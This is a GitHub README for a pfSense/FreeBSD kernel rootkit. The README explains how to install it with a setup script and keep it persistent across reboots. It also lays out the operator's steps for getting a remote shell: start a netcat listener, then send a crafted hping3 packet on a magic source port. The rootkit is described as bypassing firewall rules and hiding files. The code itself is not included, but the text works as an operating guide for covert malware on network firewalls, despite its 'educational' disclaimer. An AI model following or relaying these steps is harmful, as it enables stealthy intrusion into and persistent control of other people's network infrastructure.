 # House of Sharad - pfSense Rootkit

## 🚀 Overview

House of Sharad is a pfSense rootkit that hooks into the IPv4 stack of the FreeBSD kernel, allowing for stealthy reverse shells by detecting specially crafted packets.

## 🔥 Huge Thanks

First and foremost, a massive thank you to my friend Sharad (mineo333) for helping implement the core functionality of forking a process and executing kern_execve() in the child. This is what enables command execution when a packet with a specific source port is detected. This rootkit wouldn't be possible without his help.

Additionally, the file-hiding functionality is directly borrowed from BlueDragonSecurity's (bluedragonsecurity) bsd_freebsd project. Huge thanks for this work!

## 📌 Compatibility

The precompiled .ko files are mainly compatable with pfSense 2.7.2 CE but have also worked for pfSense 2.7.1 CE.

If you need to compile them yourself, you must do so within a pfSense environment (not just a compatible FreeBSD kernel).

Follow the setup guide: extra/how_to_setup_pfsense_to_compile.txt.

## 🛠️ Features

✅ Hooks into pfSense’s IPv4 stack for stealthy reverse shell execution

✅ Bypasses firewall rules (even if attacker IP/port is blocked) while showing malicous incoming packets as dropped

✅ Persistance accorss reboots and unloading

✅ File hiding functionality

✅ Uses socat for reliable reverse shells (pfSense’s nc lacks reverse shell support)

## 🏗️ Installation

### 1️⃣ Cloning and Setup

### Clone the repository
git clone https://github.com/Mon-keyBoy/house_of_sharad.git

```cd house_of_sharad```

### Set execution permissions
```chmod +x load_and_setup.sh```

### Run the setup script
```./load_and_setup.sh```

Once the script completes, you'll be inside a ghost ```/house_of_sharad``` directory.  To return to root, run:

```cd /```

## 🛡️ Getting a Reverse Shell

### 1️⃣ Start a Listener

On your attacking machine, open a terminal and start a listener:

```nc -lvnp 7000```

### 2️⃣ Trigger the Reverse Shell

In another terminal, send packets that will activate the rootkit:

```sudo hping3 -S -p 80 -s 6969 <TARGET_IP>```

🔹 Port 80 is a good choice for the destination port.
🔹 If the shell doesn’t connect after ~5 packets, press Ctrl + C and re-run the command (packet filtering can be finicky).

## 🧩 Additional Notes

Persistence: This rootkit is loaded via apeshit.sh upon boot, which is setup by load_and_setup.sh.

Extra Fun: The extra/ directory contains a simple LKM that prints a face endlessly to the terminal (input still works, but it scrolls rapidly). To stop it, simply unload the module, this is also finickey and the texct might just appear in kernel logs instead (this happened in pfSense 2.7.1 CE but it worked as intended in pfSense 2.7.2 CE).

### Loading It

```kldload /boot/modules/.evil/evil.ko```

# ⚠️ Disclaimer: This project is for educational and research purposes only. Unauthorized use may be illegal. The author takes no responsibility for misuse.

